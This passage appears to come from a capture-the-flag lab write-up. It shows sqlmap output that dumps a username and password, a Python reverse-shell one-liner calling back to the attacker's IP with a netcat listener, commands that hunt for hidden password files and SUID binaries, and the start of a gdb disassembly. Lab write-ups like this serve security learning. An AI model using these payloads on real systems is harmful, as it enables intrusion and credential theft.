```
[23:37:04] [INFO] fetching tables for database: 'users'
[23:37:05] [INFO] retrieved: 'users'
[23:37:05] [INFO] fetching columns for table 'users' in database 'users'
[23:37:05] [INFO] retrieved: 'username'
[23:37:05] [INFO] retrieved: 'varchar(100)'
[23:37:05] [INFO] retrieved: 'password'
[23:37:05] [INFO] retrieved: 'varchar(100)'
[23:37:05] [INFO] fetching entries for table 'users' in database 'users'
[23:37:06] [INFO] retrieved: 'secretpass'
[23:37:06] [INFO] retrieved: 'pingudad'
Database: users
Table: users
[1 entry]
+------------+----------+
| password   | username |
+------------+----------+
| secretpass | pingudad |
+------------+----------+

[23:37:06] [INFO] table 'users.users' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.41.142/dump/users/users.csv'
[23:37:06] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/root/.local/share/sqlmap/output/results-03262021_1137pm.csv'

[*] ending @ 23:37:06 /2021-03-26/

```
# Command Execution
* We can get a reverse shell with `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.36.105",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
	* Run `nc -lvnp 1337` locally

* We can find the hidden password with `find -name hidden* 2>/dev/null`
	* `cat /var/hidden/pass` gives us `pinguapingu`

* Now we can connect with `ssh pingu@10.10.41.142`

# LinEnum
* We can find suid binaries with `find / -perm -u=s -type f 2>/dev/null`
	* One of them is `/opt/secret/root`

# pwndbg
* I don't like pwndbg, so I'm going to use gef locally by downloading it using `python3 -m http.server 80` and `wget http://10.10.41.142:8080/root` remotely

### gef
1. `gdb root`
2. `disas main`
```
Dump of assembler code for function main:
   0x08048521 <+0>:	lea    ecx,[esp+0x4]
   0x08048525 <+4>:	and    esp,0xfffffff0
   0x08048528 <+7>:	push   DWORD PTR [ecx-0x4]
   0x0804852b <+10>:	push   ebp
   0x0804852c <+11>:	mov    ebp,esp
   0x0804852e <+13>:	push   ecx
   0x0804852f <+14>:	sub    esp,0x4
   0x08048532 <+17>:	call   0x8048504 <get_input>
   0x08048537 <+22>:	mov    eax,0x0
```
